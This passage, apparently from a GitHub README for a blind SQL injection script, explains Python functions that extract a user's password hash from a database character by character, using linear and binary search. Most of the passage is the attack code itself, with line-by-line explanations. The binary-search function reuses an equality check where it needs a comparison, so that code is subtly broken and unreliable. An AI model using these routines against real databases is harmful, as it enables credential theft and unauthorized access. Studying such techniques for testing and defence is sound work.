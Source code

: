   - **i**: Starts at 0 and increments until it finds the length of the password.
   - **payload**: The payload checks if the password length is less than or equal to `i`. If it returns false, then the password length is exactly `i`.
   - **injected_query(payload)**: Sends the payload and checks the response to determine if the length has been found.

### 6. **Extract Password Hash Function (Linear Search)**
   ```python
   def extract_hash(charset, user_id, password_length):
       found = ""
       for i in range(password_length):
           for j in range(len(charset)):
               if boolean_query(i, user_id, charset[j]):
                   found += charset[j]
                   break
       return found
   ```
   **Explanation**:
   - **extract_hash(charset, user_id, password_length)**: Extracts the password hash by iterating over each position in the password and testing each character in the `charset` to find the correct one.
   - **found**: An empty string that will accumulate the correct characters of the password hash.
   - **boolean_query(i, user_id, charset[j])**: Uses the `boolean_query` function to check if the current character in the `charset` matches the character in the password at position `i`.
   - **found += charset[j]**: If the character matches, it is added to the `found` string, and the loop breaks to move on to the next character position.

### 7. **Extract Password Hash Function (Binary Search)**
   ```python
   def extract_hash_bst(charset, user_id, password_length):
       found = ""
       for index in range(password_length):
           start = 0
           end = len(charset) - 1
           while start <= end:
               if end - start == 1:
                   if boolean_query(index, user_id, charset[start]):
                       found += charset[start]
                   else:
                       found += charset[end]
                   break
               else:
                   middle = (start + end) // 2
                   if boolean_query(index, user_id, charset[middle]):
                       end = middle
                   else:
                       start = middle + 1
       return found
   ```
   **Explanation**:
   - **extract_hash_bst(charset, user_id, password_length)**: Uses binary search to optimize the process of finding each character in the password hash.
   - **start, end**: Indices to track the current range of characters being searched.
   - **middle**: The midpoint of the current range.
   - **boolean_query(index, user_id, charset[middle])**: Determines whether the character at the midpoint is correct or whether to continue searching in the upper or lower half.
   - **found**: Accumulates the found characters of the password hash.
